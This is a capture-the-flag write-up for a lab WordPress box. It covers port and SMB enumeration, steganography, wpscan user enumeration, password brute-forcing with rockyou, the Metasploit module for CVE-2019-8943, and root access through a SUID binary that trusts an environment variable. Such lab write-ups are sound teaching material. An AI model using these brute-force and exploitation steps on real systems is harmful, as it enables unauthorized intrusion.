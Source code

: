 ```yaml
---
title: Test Toc Level - TOC_LEVEL = 6
toc_level: 6
category: Dummy
date: 2019-1-1
---
```


### Objectives

Capture two flags from the box

### Steps

Since the task tells us to add blog.thm to the hosts file let’s do that before we start running anything on it.

### Enumeration

As always lets start with a basic portscan
	
```python
Nmap scan report for <IP>
Not shown: 998 closed ports
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have HTTP and SMB open. Let’s check out the SMB share

### SMB

Let’s scan the machine with smbmap to check for available shares
	
```python
» smbmap.py -H <IP>
[+] Finding open SMB ports....
[+] Guest SMB session established on <IP>...
[+] IP: <IP>:445 Name: blog.thm
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        BillySMB                                                READ, WRITE     Billy's local SMB Share
        IPC$                                                    NO ACCESS       IPC Service (blog server (Samba, Ubuntu))
```

Let’s try to get the files from the BillySMB share as it’s the one that stands out
	
```python
» smbclient //10.10.29.18/BillySMB
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 11 00:52:57 2020
  ..                                  D        0  Tue May 26 19:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 20:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 20:13:45 2020
  check-this.png                      N     3082  Tue May 26 20:13:43 2020

                15413192 blocks of size 1024. 9737512 blocks available
```
If we download the files we don’t see anything obvious. We can check the jpg with stegsolve

```python
» steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
» cat rabbit_hole.txt
```
You've found yourself in a rabbit hole, friend.

So since this is a rabbit hole let’s check out the HTTP server
HTTP

http index
When we visit the website we see a basic blog. From the room description we know it’s running wordpress.

With that we can scan it using wpscan (I’ll remove the unnecessary info)

```python
» wpscan --url blog.thm -e u
Interesting Finding(s):

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

We see the site is using WP version 5.0 and it found two users: kwheel and bjoel.

Room tags are hinting at a CVE (CVE-2019-8943) which is a vulnerability allowing for writing files with arbitrary paths thanks to path traversal in wp_crop_image().
If we read a bit more about this vuln we can find out that it requires a user account. Thankfully we got the two usernames here so let’s try bruteforcing at least one of them.

Since wpscan has a bruteforce feature we can use that.

```python
» wpscan --url blog.thm -U kwheel,bjoel -P /opt/wordlists/rockyou.txt --password-attack wp-login -t 64
<RANDOM THINGS>

[SUCCESS] - kwheel / <REDACTED>
```

After around two minutes we succesfully gained a user account which we can now use to gain a shell.

### CVE-2019-8943 - metasploit

Metasploit contains a module that exploits this vulnerability which we can use to gain a shell.
exploit/multi/http/wp_crop_rce

### Shell

Now that we have a shell we can check for other users on the system

```python
$ ls /home
bjoel
```

### Privesc

Looking through the system we can’t find a way to get to bjoel but we can see a suid binary that stands out a bit with it being in /usr/sbin

```python
$ /usr/sbin/checker
Not an Admin
```
The program prints out a string but doesn’t seem like it does anything else so let’s check it with ghidra.

Ghidra decompiler shows us a program looking something like this (the code below has been cleaned up a bit)

```python
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

We can see this program just gets the “admin” env variable and checks if it’s not null so we can easily bypass this by setting it to anything.

```python
$ admin=a /usr/sbin/checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

Now we can read the root flag, check out the bjoel’s files and find his hidden user flag in /media

Thanks to:
```python
    Nameless0ne for creating this room
    you for reading.
    Hope you learned something :)
```
